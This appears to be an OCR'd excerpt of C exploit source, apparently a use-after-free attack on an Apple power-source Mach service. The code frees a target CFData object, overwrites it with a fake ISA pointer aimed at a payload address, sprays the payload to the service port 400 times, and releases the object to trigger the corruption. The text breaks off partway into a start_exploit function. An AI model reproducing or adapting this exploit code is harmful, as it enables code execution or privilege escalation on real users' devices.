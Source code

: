 ```c
    uint64_t addr = do_get_payload_address(&diff,&ps_id);

    printf("[+] We got a page-aligned memory : 0x%llx with controlling object ps = 0x%x\n",addr,ps_id);
    printf("[+] The offset of the target CFData object : 0x%llx\n",diff);

    //uint32_t tagsize = getpagesize();///2;
    uint32_t tagsize = round_page(prestore_size);
    uint8_t *tag2 = do_dummy_allocate_p(tagsize, 0xc0);
    uint64_t *vals = (uint64_t *)&tag2[0];

    // we are targetting a CFData object inside a huge CFDictionary, we are calling CFRelease(CFDict)
    // make sure there is no corruption in the Dictionary
    printf("[+] Restoring memory to its old state and injecting our fake ISA pointer \n");
    uint64_t v = 0xcafebab0;
    v = payload_address;
    memcpy(&prestore[diff], &v, 8);
    printf("[+] Deallocating 0x%llx ...",addr);

    vals = (uint64_t *)&prestore[diff];

    vals[0x20/8] = payload_address + 0x200; //  ldr    x0, [x0, #0x20]

    // deallocate the target memory
    deallocate_memory_user(addr,tagsize);
    printf("Done\n");

reply:
    for(int i=0;i<400;i++) {
        send_pegged_payload(service_port, (const char*)prestore, tagsize);
    }

#if 0
    printf("Looks like msgs sent ? \n");
    Iter = 1000;
    guess = 0;

    if(!READ_MEMORY(addr+diff, 0x100, 0xdead, &guess)) {
        printf("Failed \n");
        goto reply;
    }

    DumpHex((const void*)guess, 0x100);
#endif

    printf("[+] Releasing the target CF object \n");
    io_ps_release_pspowersource(service_port,ps_id);

    return 0;

}


void start_exploit(void)
{

//#define LOCAL_EXP
#ifdef LOCAL_EXP
    // test service
    pthread_create(&svc,NULL,register_fake_service,NULL);
    sleep(5);
    mach_port_t bs,p;
```